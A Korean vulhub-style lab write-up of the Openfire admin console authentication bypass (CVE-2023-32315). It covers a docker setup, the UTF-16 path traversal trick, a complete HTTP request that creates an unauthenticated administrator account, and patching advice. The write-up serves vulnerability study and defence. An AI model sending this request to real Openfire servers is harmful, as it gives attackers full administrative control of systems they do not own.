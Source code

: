# Openfire Admin Console Authentication Bypass (CVE-2023-32315)

**WHS3** : 6반 이경빈

**github** : https://github.com/BBIS-Lee/kr-vulhub/tree/main/openfire/CVE-2023-32315

**Pull Requests** : https://github.com/gunh0/kr-vulhub/pull/268

## 1. 개요
Openfire는 Apache 라이선스 하에 제공되는 오픈 소스 실시간 협업(RTC) 서버입니다. XMPP(Jabber) 프로토콜을 기반으로 한 메시징 서비스를 지원합니다.

그러나 Openfire 4.7.4 및 4.6.7 이전 버전에서는 관리 콘솔(Admin Console) 환경 설정(setup environment)에서 경로 탐색(Path Traversal) 취약점이 발견되었습니다. 이 취약점을 통해 인증되지 않은 사용자가 이미 설정이 완료된 Openfire 서버에서 관리 콘솔의 권한이 필요한 페이지에 접근할 수 있습니다.

References:

- <https://github.com/vulhub/vulhub/tree/master/openfire/CVE-2023-32315>

## 2. 환경 구축

다음 명령어를 통해 Openfire 4.7.4 서버를 실행합니다:

```
docker compose up -d
```

서버가 시작된 후, http://localhost:9090 에 접속하면 로그인 페이지로 리다이렉트되어 인증을 요구받게 됩니다.

![](1.PNG)

## 3. 취약점 설명

과거 Openfire 관리 콘솔에서는 CVE-2008-6508로 알려진 경로 탐색(Path Traversal) 취약점이 존재했습니다. 공격자는 다음과 같은 방식으로 인증을 우회할 수 있었습니다: `/setup/setup-/../../[page].jsp`

이후 보안 업데이트를 통해 일반적인 경로 탐색 공격을 차단했지만, 내장 웹 서버가 비표준 URL 인코딩(UTF-16 인코딩)을 지원하게 되면서 새로운 형태의 우회 방법이 가능해졌습니다.

따라서 공격자는 다음과 같이 UTF-16 인코딩을 활용하여 보호 기능을 우회할 수 있습니다: 
`/setup/setup-/%u002e%u002e/%u002e%u002e/[page].jsp` to bypass the path traversal protection again.

## 4. 관리자 계정 생성

다음 요청을 통해 새로운 관리자를 생성할 수 있습니다:

```
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&username=hackme&name=&email=&password=hackme&passwordConfirm=hackme&isadmin=on&create=Create+User HTTP/1.1
Host: localhost:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: csrf=csrftoken


```

![](2.PNG)

## 5. 관리자 로그인 및 접근 권한 확인
생성한 "hackme" 계정으로 로그인하면 정상적인 관리자 권한이 부여된 것을 확인할 수 있습니다.

![](3.PNG)

![](4.PNG)

## 6. 결론 및 대응 방안

본 취약점을 통해 인증되지 않은 공격자가 Openfire 서버의 전체 관리 권한을 획득할 수 있습니다. 이에 따라 심각한 보안 위협이 발생할 수 있으므로, 다음과 같은 대응이 필요합니다:

- Openfire 버전을 4.6.7 또는 4.7.4 이상으로 즉시 업데이트할 것

- 서버에 대한 접근을 방화벽 등으로 제한하고, 외부 노출을 최소화할 것

- 서버에 대한 비인가 접근 및 설정 변경 여부를 점검할 것
